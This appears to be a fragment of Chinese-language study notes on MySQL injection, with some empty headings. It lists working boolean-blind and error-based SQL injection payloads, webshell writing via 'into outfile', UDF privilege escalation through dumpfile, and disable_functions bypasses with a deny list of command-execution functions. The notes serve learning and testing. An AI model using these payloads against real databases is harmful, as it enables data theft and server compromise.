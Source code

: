 #### MySQL的索引

索引是帮助MySQL高效获取数据的数据结构。MYISAM和InnoDB存储引擎只支持BTree索引；MEMORY和HEAP储存引擎可以支持HASH和BTREE索引。

#### ORDER BY在注入的运用

#### GPC是什么？GPC之后怎么绕过？

如果`magic_quotes_gpc=On`，PHP解析器就会自动为post、get、cookie过来的数据增加转义字符“\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符（认为是php的字符）引起的污染。

#### Mysql一个@和两个@什么区别

-   @为用户变量，使用`SET @var1=1`赋值
-   @@ 为系统变量 ，包括全局变量`show global variables \G;`和会话变量`show session variables \G;`

#### 注入/绕过常用的函数

1.  基于布尔SQL盲注
    -   `left(database(),1)>'s'`
    -   `ascii(substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+`
    -   `ascii(substr((select database()),1,1))=98`
    -   `ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23`
    -   `regexp`正则注入 `select user() regexp '^[a-z]';`
    -   `select user() like 'ro%'`
2.  基于报错的SQL盲注
    -   `Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;`

#### MySQL存储过程

#### 各种写shell的问题

1.  写shell用什么函数？
    -   `select ' into outfile 'D:/shelltest.php'`
    -   `dumpfile`
    -   `file_put_contents`
2.  outfile不能用了怎么办？ `select unhex('udf.dll hex code') into dumpfile 'c:/mysql/mysql server 5.1/lib/plugin/xxoo.dll';`可以UDF提权 https://www.cnblogs.com/milantgh/p/5444398.html
3.  dumpfile和outfile有什么不一样？outfile适合导库，在行末尾会写入新行并转义，因此不能写入二进制可执行文件。
4.  sleep()能不能写shell？
5.  写shell的条件？
    -   用户权限
    -   目录读写权限
    -   防止命令执行：`disable_functions`，禁止了`disable_functions=phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source`，但是可以用dl扩展执行命令或者ImageMagick漏洞 https://www.waitalone.cn/imagemagic-bypass-disable_function.html
    -   open_basedir: 将用户可操作的文件限制在某目录下

#### 

### 注入类型
